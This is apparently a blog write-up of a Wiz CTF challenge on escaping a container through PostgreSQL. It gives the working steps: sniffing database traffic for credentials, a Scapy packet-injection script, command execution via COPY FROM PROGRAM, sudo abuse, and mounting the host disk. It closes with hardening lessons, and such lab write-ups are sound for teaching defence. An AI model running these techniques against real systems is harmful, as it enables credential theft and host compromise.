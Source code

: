 ```yaml
---
layout: post
title: "Wiz CTF July 2025: Contain Me If You Can - A PostgreSQL Container Escape"
date: 2025-09-10
categories: [ctf, security]
tags: [ctf, security, container-escape, postgresql, docker, pentesting]
excerpt: "Exploiting network traffic capture, PostgreSQL command execution, and container misconfigurations to achieve a complete container escape and access the host filesystem."
---
```


## Challenge Overview

In this Wiz CTF challenge, I achieved a complete container escape by chaining together network traffic analysis, database exploitation, and container misconfigurations. The attack path involved capturing PostgreSQL credentials from unencrypted network traffic, leveraging database privileges for command execution, and ultimately mounting the host filesystem to retrieve the flag.

## Vulnerabilities Exploited

**Container Escape via Database Exploitation** combining:
- Unencrypted PostgreSQL network traffic
- PostgreSQL `COPY TO/FROM PROGRAM` command execution
- Excessive sudo privileges on database user
- Container access to host block devices

## Attack Steps

### 1. Initial Reconnaissance

I started by exploring the container environment to identify potential attack vectors:

```bash
ps aux
netstat -tunap
```

This revealed an active PostgreSQL connection on port 5432 between containers, which became my primary target.

### 2. Network Traffic Capture and Analysis

I captured the database traffic to extract credentials:

```bash
# Start packet capture in background
tcpdump -i eth0 -s 0 -w /tmp/pgdump.pcap port 5432 &
```

Next, I used Scapy to analyze the traffic and attempt a direct exploitation:

```python
from scapy.all import *
import struct

# Capture PostgreSQL server response
pkts = sniff(count=1, filter="tcp and src host 172.19.0.2 and src port 5432", timeout=10)

if pkts:
    server_pkt = pkts[0]
    my_seq = server_pkt[TCP].ack
    payload_len = len(server_pkt[Raw].load) if server_pkt.haslayer(Raw) else 0
    my_ack = server_pkt[TCP].seq + payload_len
    my_sport = server_pkt[TCP].dport

    # Craft PostgreSQL COPY TO PROGRAM packet
    exploit_cmd = 'sudo cat /flag'
    pg_query = f"COPY (SELECT '') TO PROGRAM '{exploit_cmd}'"
    query_payload = pg_query.encode('utf-8')
    query_length = len(query_payload) + 4 + 1
    pg_packet_data = b'Q' + struct.pack('>I', query_length) + query_payload + b'\x00'

    ip = IP(src="172.19.0.3", dst="172.19.0.2")
    tcp = TCP(sport=my_sport, dport=5432, flags="PA", seq=my_seq, ack=my_ack)
    exploit_packet = ip/tcp/pg_packet_data

    send(exploit_packet, verbose=0)
    print("[+] Direct flag read attempt sent!")
```

While the initial packet injection didn't work directly, I extracted the database credentials from the capture:

```bash
strings /tmp/pgdump.pcap
# Found: user, mydatabase, SecretPostgreSQLPassword
```

### 3. Direct PostgreSQL Connection

With the extracted credentials, I connected to the database:

```bash
psql -h 172.19.0.2 -U user -d mydatabase
# Password: SecretPostgreSQLPassword
```

### 4. PostgreSQL Command Execution and Privilege Discovery

I created a temporary table to capture command output:

```sql
CREATE TEMP TABLE out(line text);

-- Check current privileges
COPY out FROM PROGRAM 'id 2>&1';
SELECT * FROM out; TRUNCATE out;
-- Result: uid=999(postgres) gid=999(postgres)

-- Check sudo capabilities
COPY out FROM PROGRAM 'sudo -l 2>&1';
SELECT * FROM out; TRUNCATE out;
-- Result: (ALL) NOPASSWD: ALL
```

This revealed the postgres user had unrestricted sudo access - a critical misconfiguration.

### 5. Container Escape - Device Discovery

I enumerated available storage devices to identify escape paths:

```sql
-- List block devices
COPY out FROM PROGRAM 'sudo fdisk -l 2>&1';
SELECT * FROM out; TRUNCATE out;
-- Found: /dev/vda (squashfs), /dev/vdb

-- Check current mounts
COPY out FROM PROGRAM 'sudo cat /proc/mounts 2>&1';
SELECT * FROM out; TRUNCATE out;

-- Create mount point
COPY out FROM PROGRAM 'sudo mkdir -p /mnt/host 2>&1';
SELECT * FROM out; TRUNCATE out;
```

### 6. Container Escape - Host Filesystem Access

With access to host block devices, I mounted the host filesystem:

```sql
-- Mount the host root filesystem
COPY out FROM PROGRAM 'sudo mount /dev/vda /mnt/host 2>&1';
SELECT * FROM out; TRUNCATE out;

-- Verify mount
COPY out FROM PROGRAM 'sudo ls -la /mnt/host/ 2>&1';
SELECT * FROM out; TRUNCATE out;

-- Read the flag from host
COPY out FROM PROGRAM 'sudo cat /mnt/host/flag 2>&1';
SELECT * FROM out; TRUNCATE out;
```

**Flag:** `CTF{how_turned_guests_to_hosts}`

## Key Takeaways

This challenge demonstrated a sophisticated container escape chain:

1. **Network Traffic Analysis**: Captured and extracted PostgreSQL credentials from unencrypted network traffic
2. **Database Command Execution**: Leveraged PostgreSQL's `COPY TO/FROM PROGRAM` to execute arbitrary commands
3. **Privilege Escalation**: Exploited misconfigured sudo permissions on the postgres user
4. **Container Escape**: Mounted host block devices to access the underlying filesystem

The attack succeeded because:
- Database traffic was unencrypted and contained credentials
- The postgres user had unrestricted sudo access
- The container had access to host block devices (`/dev/vda`)
- The container ran with sufficient privileges to mount filesystems

### Alternative Methods I Attempted

- **Core Pattern Escape**: Tried `/proc/sys/kernel/core_pattern` for code execution
- **Namespace Escape**: Attempted `nsenter` to join host namespaces
- **Process Tree Analysis**: Explored `/proc/1/root` for host filesystem access

This highlights critical security principles:
- **Network Encryption**: Always encrypt database connections, even between containers
- **Least Privilege**: Service accounts should never have unrestricted sudo access
- **Container Hardening**: Isolate containers from host devices using proper security contexts
- **Device Restrictions**: Use `--device` flags carefully and avoid exposing host block devices
- **Security Monitoring**: Log privileged operations and unusual network patterns